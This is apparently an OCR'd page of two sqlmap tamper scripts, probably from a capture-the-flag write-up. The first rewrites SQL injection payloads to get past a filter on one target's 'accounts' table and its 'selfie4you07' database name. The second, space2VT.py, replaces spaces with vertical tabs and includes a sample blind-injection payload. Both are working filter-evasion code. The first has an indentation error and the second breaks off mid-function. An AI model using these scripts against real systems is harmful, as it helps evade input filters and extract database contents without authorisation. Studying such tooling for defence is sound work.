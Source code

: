 ```python
import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces
		The HEX value of for the accounts table is filtered, changing it to 'accounts' we can bypass the filter.
		Note the quotes! This value is used when the sqlmap extracts the values from the INFORMATION_SCHEMA db
			- 0x6163636f756e7473 --> 'accounts'
		
		Since the database is already selected in the php application, we can strip the database name and bypass the filter
			- selfie4you07.accounts --> accounts 	
    """

    retVal = payload

    if payload:
        retVal = re.sub(r"(?i)0x6163636f756e7473", "'accounts'", re.sub(r"(?i)selfie4you07.accounts", "accounts", payload))

	return retVal
```
```python 
#tamper script space2VT.py
#!/usr/bin/env python

"""
Copyright (c) 2006-2016 sqlmap developers (http://sqlmap.org/)
See the file 'doc/COPYING' for copying permission
"""

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space to vertical tab for functions/operators/declarations that start with the regex / OR/i such as:
	 - ORD
	 - ORDER

    >>> tamper("ORD(MID((VERSION()),1,1))>64;")
    %0BORD(MID((VERSION()),1,1))>64;
    """

    retVal = payload

    if payload:
```